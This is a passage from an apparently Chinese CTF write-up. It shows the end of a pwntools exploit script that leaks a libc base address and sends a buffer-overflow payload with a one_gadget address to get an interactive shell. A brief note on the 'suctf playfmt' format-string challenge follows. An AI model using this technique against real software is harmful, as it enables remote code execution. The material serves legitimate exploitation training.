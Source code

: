 ```python
	num=lib.rand() % 999
	p.sendline(str(num))
	p.recvuntil('Win\n')

p.recvuntil('Your name is:\n')

libc_base=int(p.recv(14),16)-0x20830
log.info("\033[1;36m" + hex(libc_base) + "\033[0m")
payload='\x00'*0x50+'b'*8+p64(libc_base+0x45216)
p.recvuntil('something?\n')
p.send(payload)

p.interactive()

```

### fmt

`suctf playfmt`原题，可以自己上网找找wp，至于`fopen`之后为什么能够这样修改偏移可以改到对应的flag地址，可以了解一下IO file，不过比赛时这种偏移可以直接调试看就好了

参考：https://cloud.tencent.com/developer/article/1492955